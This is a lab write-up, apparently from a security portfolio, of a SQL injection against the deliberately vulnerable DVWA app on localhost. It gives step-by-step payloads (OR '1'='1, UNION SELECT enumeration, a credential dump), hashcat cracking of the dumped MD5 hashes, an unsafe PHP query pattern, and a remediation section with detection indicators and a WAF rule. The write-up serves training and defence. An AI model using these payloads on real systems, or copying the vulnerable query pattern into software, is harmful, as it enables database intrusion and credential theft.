


# Attack 1 -- SQL Injection

**DVWA Module:** SQL Injection  
**Security Level:** Low  
**URL:** `http://localhost/dvwa/vulnerabilities/sqli/`  
**MITRE ATT&CK:** T1190 -- Exploit Public-Facing Application  
**CVSS v3.1 Score:** 9.8 (Critical)

---

## Objective

Extract all user credentials from the DVWA database by exploiting an unsanitised SQL query in the User ID parameter, demonstrating the full attack chain from initial discovery to credential compromise.

---

## Lab Environment



---

## Discovery via Burp Suite

Before testing manually, Burp Suite proxy was used to observe the raw HTTP request sent when submitting a User ID.

| Step | Screenshot | Description |
|------|------------|-------------|
| Intercept | [sqli-burp-intercept.png](../screenshots/sqli-burp-intercept.png) | Burp intercepting the malicious GET request with `id=1'` |
| History | [sqli-burp-history-injection.png](../screenshots/sqli-burp-history-injection.png) | Burp HTTP History showing injection payloads |

Burp HTTP History shows the GET request:
```http
GET /dvwa/vulnerabilities/sqli/?id=1%27&Submit=Submit HTTP/1.1
Host: 10.0.3.15
Cookie: PHPSESSID=ece4b6db2b4e60fd720865818834f6b5; security=low
```

The `id` parameter is passed directly to the SQL query with no sanitisation.

---

## Step 1 -- Confirm SQL Injection

Enter in the User ID field:
```
1'
```

A MySQL error is returned -- the application is passing the input directly into the query without escaping the quote character. **Injection confirmed.**

**Vulnerable Code Pattern:**
```php
// UNSAFE: Direct string concatenation
$query = "SELECT first_name, last_name FROM users WHERE user_id = '$id'";
```

---

## Step 2 -- Extract All Users

Enter:
```
1' OR '1'='1
```

**Screenshot:** [sqli-all-users-localhost.png](../screenshots/sqli-all-users-localhost.png)

All five users are reflected in the response:
```
ID: 1' OR '1'='1   First name: admin     Surname: admin
ID: 1' OR '1'='1   First name: Gordon    Surname: Brown
ID: 1' OR '1'='1   First name: Hack      Surname: Me
ID: 1' OR '1'='1   First name: Pablo     Surname: Picasso
ID: 1' OR '1'='1   First name: Bob       Surname: Smith
```

The payload forces the `WHERE` clause to always evaluate to `TRUE`:

```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' OR '1'='1'
                                                    ^^^^^^^^^^^^^^^^^
                                                    Always TRUE
```

---

## Step 3 -- UNION-Based Extraction

Determine the number of columns and extract database contents:

```sql
-- Find column count (2 columns exist)
1' ORDER BY 1--
1' ORDER BY 2--
1' ORDER BY 3--    <-- error here confirms 2 columns

-- Identify output columns
1' UNION SELECT 1,2--

-- Get database name
1' UNION SELECT database(),2--

-- List all tables
1' UNION SELECT table_name,2 FROM information_schema.tables WHERE table_schema=database()--

-- Get columns in users table
1' UNION SELECT column_name,2 FROM information_schema.columns WHERE table_name='users'--

-- Dump credentials
1' UNION SELECT user,password FROM users--
```

### Attack Chain Visualisation



---

## Step 4 -- Crack the Password Hashes

The `password` column stores unsalted MD5 hashes. Crack with hashcat:

```bash
# Extract hash and crack with rockyou.txt
echo "5f4dcc3b5aa765d61d8327deb882cf99" | hashcat -m 0 - /usr/share/wordlists/rockyou.txt --force
```

Result:
```
5f4dcc3b5aa765d61d8327deb882cf99 → password
```

### Extracted Credentials

| User | Password Hash (MD5) | Plaintext |
|------|-------------------|-----------|
| admin | 5f4dcc3b5aa765d61d8327deb882cf99 | password |
| gordonb | e99a18c428cb38d5f260853678922e03 | abc123 |
| 1337 | 8d3533d75ae2c396e7f2183f55cc1f1a | charley |
| pablo | 0d107d09f5bbe40cade3de5c71bd97a7 | letmein |
| smithy | 5f4dcc3b5aa765d61d8327deb882cf99 | password |

---

## Remediation

### Secure Code (Prepared Statements)
```php
// SAFE: Parameterised query with PDO
$stmt = $pdo->prepare("SELECT first_name, last_name FROM users WHERE user_id = ?");
$stmt->execute([$id]);
$results = $stmt->fetchAll();
```

### Input Validation
```php
// Additional defence-in-depth
if (!is_numeric($id) || $id < 1) {
    die("Invalid User ID");
}
```

---

## Finding Summary

| Field | Detail |
|-------|--------|
| **Vulnerability** | SQL Injection (Error-Based + UNION-Based) |
| **Location** | `id` GET parameter on `/vulnerabilities/sqli/` |
| **Root Cause** | No input sanitisation; direct string concatenation into SQL query |
| **Impact** | Complete database disclosure; credential theft; authentication bypass |
| **Payload** | `1' UNION SELECT user,password FROM users--` |
| **Credentials Extracted** | 5 user accounts; MD5 hashes cracked to plaintext |
| **CVSS v3.1** | 9.8 (Critical) |
| **MITRE ATT&CK** | T1190 -- Exploit Public-Facing Application |

---

## Detection

See [detections/sqli-detection.yml](../detections/sqli-detection.yml) for the Sigma rule.

### SIEM/Monitoring Indicators
- HTTP parameters containing `' OR`, `UNION SELECT`, `information_schema`, `1=1--`
- Unusually large response bodies from query endpoints
- Multiple sequential requests to the same endpoint with incrementing payloads (`ORDER BY 1, 2, 3...`)
- Requests containing SQL keywords in GET parameters (`SELECT`, `FROM`, `WHERE`)

### WAF Rules
```
# Example ModSecurity rule
SecRule REQUEST_ARGS "@rx (?i)(union|select|insert|delete|drop|update|information_schema)"
    "id:1000,deny,status:403,msg:'SQL Injection Detected'"
```
